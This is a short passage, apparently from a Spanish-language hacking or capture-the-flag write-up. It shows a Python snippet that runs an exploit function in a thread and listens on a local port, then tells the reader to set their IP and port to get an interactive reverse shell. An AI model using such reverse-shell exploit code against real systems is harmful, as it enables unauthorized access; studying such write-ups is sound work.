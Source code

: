 ```python
        try:
                threading.Thread(target=getAccess, args=()).start()
        except Exception as e:
                log.error(str(e))

        shell = listen(lport, timeout=20).wait_for_connection()
        shell.interactive()
        getAccess()
```

En este caso ajustarlo a tu `IP` y `PUERTO` en lo dicho anteriormente y en la seccion de `lport = <PORT>` una vez ajustado esto y ejecutado tendremos una shell interactiva...
